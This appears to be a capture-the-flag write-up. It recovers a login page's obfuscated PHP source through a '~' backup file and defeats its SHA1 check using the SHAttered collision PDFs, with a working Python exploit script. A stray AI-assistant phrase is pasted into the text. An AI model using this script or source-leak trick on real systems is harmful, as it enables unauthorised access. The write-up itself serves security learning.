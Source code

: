 
<img width="588" height="348" alt="screenshot-1752557543" src="https://github.com/user-attachments/assets/ca3bcb94-ecdf-422f-a130-cfac90ba1bbb" />


```
<!DOCTYPE html>
<html>
<head>
    <title>Login Page</title>
</head>
<body style="text-align:center;">
    <pre>
 _               _         _  __                                       
| |             (_)       (_)/ _|                                      
| | ___   __ _   _ _ __    _| |_   _   _  ___  _   _    ___ __ _ _ __  
| |/ _ \ / _` | | | '_ \  | |  _| | | | |/ _ \| | | |  / __/ _` | '_ \ 
| | (_) | (_| | | | | | | | | |   | |_| | (_) | |_| | | (_| (_| | | | |
|_|\___/ \__, | |_|_| |_| |_|_|    \__, |\___/ \__,_|  \___\__,_|_| |_|
          __/ |                     __/ |                              
         |___/                     |___/                               


    </pre>
    <br/>
    <form action="impossibleLogin.php" method="post">
        <label for="username">Username:</label><br>
        <input type="text" id="username" name="username"><br>
        <label for="pwd">Password:</label><br>
        <input type="password" id="pwd" name="pwd"><br><br>
        <input type="submit" value="Login">
    </form>
</body>
</html>

```
After adding ~ to the url i saw some comments 
```
<!DOCTYPE html>
<html>
<head>
    <title>Login Page</title>
</head>
<body style="text-align:center;">
    <pre>
 _               _         _  __                                       
| |             (_)       (_)/ _|                                      
| | ___   __ _   _ _ __    _| |_   _   _  ___  _   _    ___ __ _ _ __  
| |/ _ \ / _` | | | '_ \  | |  _| | | | |/ _ \| | | |  / __/ _` | '_ \ 
| | (_) | (_| | | | | | | | | |   | |_| | (_) | |_| | | (_| (_| | | | |
|_|\___/ \__, | |_|_| |_| |_|_|    \__, |\___/ \__,_|  \___\__,_|_| |_|
          __/ |                     __/ |                              
         |___/                     |___/                               


    </pre>
    <br/>
    <form action="impossibleLogin.php" method="post">
        <label for="username">Username:</label><br>
        <input type="text" id="username" name="username"><br>
        <label for="pwd">Password:</label><br>
        <input type="password" id="pwd" name="pwd"><br><br>
        <input type="submit" value="Login">
    </form>
</body>
</html>

<?php
 if(isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")])&& isset($_POST[base64_decode("\143\x48\x64\x6b")])){$yuf85e0677=$_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];$rs35c246d5=$_POST[base64_decode("\143\x48\144\153")];if($yuf85e0677==$rs35c246d5){echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");}else{if(sha1($yuf85e0677)===sha1($rs35c246d5)){echo file_get_contents(base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"));}else{echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75");}}}?>
```
Sure! Here's a cleaner and more professional version of your explanation:

---

The PHP script first checks if the provided `username` and `password` are exactly equal. If they are, it returns a success message but **not** the flag. However, if the `username` and `password` are **not equal**, yet their **SHA1 hashes match**, the script reads and returns the contents of `../flag.txt`.

At first, it might seem like PHP type juggling (`==`) could be used to bypass the strict equality check. But since the script later uses `sha1(... ) === sha1(...)` (a strict comparison of strings), this approach doesn't work.

Instead, I used the well-known **SHAttered exploit** — a practical SHA1 collision discovered by Google and CWI in 2017. This exploit involves two different PDF files that produce the same SHA1 hash. By submitting the **raw bytes** of each PDF as the `username` and `password`, we can bypass the equality check (since the files differ) while still passing the SHA1 comparison (since their hashes match). As a result, the script returns the flag.

The following Python script automates this attack. It fetches the two PDFs from `shattered.io`, submits them to the vulnerable endpoint, and prints the response:

```python
import requests
import sys

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} <url>")
    exit(1)

url = sys.argv[1]
pdf1 = "https://shattered.io/static/shattered-1.pdf"
pdf2 = "https://shattered.io/static/shattered-2.pdf"

print("[*] Getting pdf1 content")
pdf1_bytes = requests.get(pdf1).content

print("[*] Getting pdf2 content")
pdf2_bytes = requests.get(pdf2).content

data = {
    "username": pdf2_bytes,
    "pwd": pdf1_bytes
}

res = requests.post(url, data=data)
print(res.text)
```




 



